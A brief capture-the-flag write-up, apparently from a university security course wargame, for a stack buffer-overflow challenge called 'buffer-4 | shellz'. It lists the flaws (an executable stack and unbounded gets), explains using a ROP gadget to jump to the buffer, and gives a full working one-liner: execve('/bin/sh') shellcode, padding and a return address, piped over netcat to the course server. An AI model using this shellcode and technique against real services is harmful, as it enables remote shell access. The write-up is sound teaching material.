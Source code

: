 buffer-4 | shellz
===========================

Flag: `6447{1849748d-6e69-4bca-ab03-67b0778ef9bb}`

General overview of problems faced
-------------------------------------
My first approach was to bruteforce the aslr since the buffer is 8kb which worked after about 2000 runs but I then realised it was easier to simply use rop to call eax which contained the buffer and therefore be able to execute the buffer on every run

List of vulnerabilities
--------------------
1. The stack is executable
2. Input is taking using `gets` and the buffer is of fixed sized therefore a user can overflow the buffer and overwrite anything after it

Steps to exploit
------------------
1. Send your shellcode + enough padding so that the length of your shellcode + the padding = 8204
2. Send the address 0x08048406 in little endian format
3. You now have a shell


Script/Command used
------------------
```bash
(python -c 'print "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "A"*(8204-46) + "\x06\x84\x04\x08"'; cat - ) | nc wargames.6447.sec.edu.au 5004
```
